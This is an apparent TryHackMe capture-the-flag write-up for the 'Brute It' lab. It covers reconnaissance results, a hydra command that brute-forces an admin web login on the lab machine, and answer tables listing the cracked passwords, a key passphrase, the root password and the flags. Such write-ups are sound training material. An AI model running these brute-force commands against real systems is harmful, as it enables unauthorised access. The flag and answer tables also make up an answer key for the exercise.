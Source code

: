 # Brute It

machine ip : `10.10.183.34`



## Deploy the machine


| Questions | Answers |
|-----------|---------|
|

## Reconnaissance


| Questions | Answers |
|-----------|---------|
| How many ports are open ? | 2 |
| What version of SSH is running ? | OpenSSH 7.6p1 |
| Which Linux version of Apache is running ? | 2.4.29 |
| Whcih Linux distribution is running ? | ubuntu |
| What is the hidden directory ? | /admin |

## Getting a shell

bruteforcing the admin panel with hydra
```
hydra 10.10.183.34 -l admin -P rock.txt  http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"
```
> [80][http-post-form] host: 10.10.183.34   login: admin   password: xavier



| Questions | Answers |
|-----------|---------|
| What is the user:password of the admin panel ? | admin:xavier |
| What is John's RSA Private Key passphrase ? | rockinroll |
| user.txt | THM{a_password_is_not_a_barrier} |
| web flag | THM{brut3_f0rce_is_e4sy} |

## Privilege Escalation


| Questions | Answers |
|-----------|---------|
| What is the root's password ? | football |
| root.txt | THM{pr1v1l3g3_3sc4l4t10n}
 |
